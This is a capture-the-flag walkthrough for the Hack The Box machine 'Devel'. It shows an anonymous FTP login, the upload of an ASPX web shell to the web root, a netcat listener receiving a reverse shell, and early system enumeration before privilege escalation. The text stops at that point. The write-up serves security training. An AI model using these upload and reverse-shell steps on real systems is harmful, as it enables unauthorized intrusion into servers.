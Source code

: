 ```
┌──(kali㉿kali)-[~/Documents/CTF/hackthebox/Devel]
└─$ ftp 10.10.10.5                                                                           
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:kali): Anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> bin
200 Type set to I.
ftp> put shell.aspx
local: shell.aspx remote: shell.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
2723 bytes sent in 0.00 secs (72.1349 MB/s)
ftp> bye
221 Goodbye.
```
Open URL http://10.10.10.5/shell.aspx    
```
┌──(kali㉿kali)-[~/Documents/CTF/hackthebox/Devel]
└─$ nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.5] 49159
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web
```
Not much privileges yet, need to find a way to escalate them

## Privilege escalation

First verify the OS and other basic information
```
c:\Users>systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600

c:\Users>hostname
hostname
devel

c:\Users>echo %username%
echo %username%
DEVEL$
```
It seems the host is not running any patches
```
c:\Users>systeminfo
systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
```